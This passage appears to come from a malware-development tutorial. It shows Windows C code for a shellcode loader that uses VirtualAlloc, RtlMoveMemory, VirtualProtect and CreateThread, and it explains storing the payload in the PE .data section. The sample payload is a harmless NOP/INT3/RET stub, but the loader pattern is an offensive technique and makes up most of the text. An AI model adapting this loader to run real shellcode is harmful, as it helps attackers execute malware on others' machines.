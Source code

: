 ```c
	
	// Allocate a memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	// Copy payload to new buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// Make new buffer as executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");
	getchar();

	// If all good, run the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```

### <mark style="color:orange;">**.DATA Section**</mark>

if the payload is declared outside of all functions it will be saved in the data section. this section is used for global and predefined variables in the program.

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// 4 byte payload
// declared outside all functions so its included in the PE .data section 
unsigned char payload[] = {
	0x90,		// NOP
	0x90,		// NOP
	0xcc,		// INT3
	0xc3		// RET
};
unsigned int payload_len = 4;


int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	// Allocate a memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	// Copy payload to new buffer
	RtlMoveMemory(exec_mem, payload, payload_len);

	// Make new buffer as executable
```